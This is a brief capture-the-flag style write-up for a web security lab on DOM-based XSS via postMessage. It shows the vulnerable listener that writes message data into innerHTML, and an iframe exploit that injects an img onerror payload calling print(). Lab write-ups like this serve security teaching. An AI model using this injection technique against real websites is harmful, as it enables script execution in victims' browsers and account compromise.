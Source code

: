 ## DOM XSS using web messages
We see in the webpage javascript there is the following event listener:
```
<script>
                        window.addEventListener('message', function(e) {
                            document.getElementById('ads').innerHTML = e.data;
                        })
</script>
```

Staging the payload in the exploit server. 
```
<iframe src="https://0ae4003904d6f1f482f4e23200d20060.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print() >', '*')" >
```